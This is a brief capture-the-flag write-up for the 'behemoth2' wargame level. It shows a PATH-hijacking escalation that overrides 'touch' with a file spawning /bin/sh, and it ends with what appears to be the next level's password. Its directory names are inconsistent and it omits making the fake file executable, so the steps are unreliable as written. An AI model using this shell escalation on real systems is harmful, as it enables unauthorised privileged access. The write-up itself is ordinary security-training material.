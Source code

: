 first we make a file named "touch", and write "/bin/sh" to give us shell
then we change the PATH env-var to our directory (/tmp/bt2) and add: 
	/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
so we have access to all the commands (the bash looks for a program to run in
each directory, so if /tmp/bt2 is the first, we have overriden touch as we
know to /tmp/bt/touch)
```sh
echo "/bin/sh" > /tmp/dor/touch
export PATH=/tmp/dor:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
./behemoth2
```

and we have shell

nieteidiel


